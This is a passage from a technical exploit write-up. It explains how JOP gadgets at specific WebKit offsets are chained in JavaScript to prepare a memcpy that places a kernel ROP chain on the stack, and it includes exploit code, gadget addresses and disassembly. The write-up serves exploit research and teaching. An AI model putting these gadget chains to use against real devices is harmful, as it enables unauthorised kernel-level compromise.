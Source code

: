 ```javascript
var iterbase = ctxp2;

for (var i = 0; i < 0xf; i++) {                                       // loop 15 times
    p.write8(iterbase, offsetToWebKit(0x12A19CD));                    // first JOP gadget
    stackshift_from_retaddr += 8 
    p.write8(iterbase.add32(0x7d0 + 0x20), offsetToWebKit(0x6EF4E5)); // second JOP gadget
    p.write8(iterbase.add32(8), iterbase.add32(0x20));
    p.write8(iterbase.add32(0x18), iterbase.add32(0x20 + 8))
    iterbase = iterbase.add32(0x20);                                  // setup next loop
}
```

### Preparing memcpy call
#### Fundamentals
Now that we've created space on the stack, we want to copy our kernel ROP chain into it to get executed. Let's take a look at memcpy()'s function signature:

```c
void *memcpy(void *destination, const void *source, size_t num);
```

As defined in the x64 ABI (Application Binary Interface) - the following registers are used to pass arguments to functions:

```
rdi - first argument
rsi - second argument
rdx - third argument
rcx - fourth argument
r8 - fifth argument
r9 - sixth argument
[stack] - seven+ arguments
```

Therefore, the following registers are interesting to us for this memcpy call:

```
rdi (memory destination pointer)
rsi (memory source pointer)
rdx (size in bytes)
```

#### Setting Size
The first thing we'll do is load RDX for the size. We can do this via another JOP gadget in WebKit at `0x15CA41B`.

```
seg000:00000000015CA41B                 mov     rdx, [rdi+0B0h]
seg000:00000000015CA422                 call    qword ptr [rdi+70h]
```

We can write relative to RDI via the `rdibase` variable. By adding our shift plus 0x28 (offset for where we're writing on the stack), we can load RDX with our chain length.

#### Setting Source
Next we'll load the source pointer in RSI. We want this to point to where we're writing our kernel ROP chain in userland. Similar to when we set the size, we'll again look for a JOP gadget that can set RSI from memory relative to RDI. WebKit at `0x1284834` does the trick.
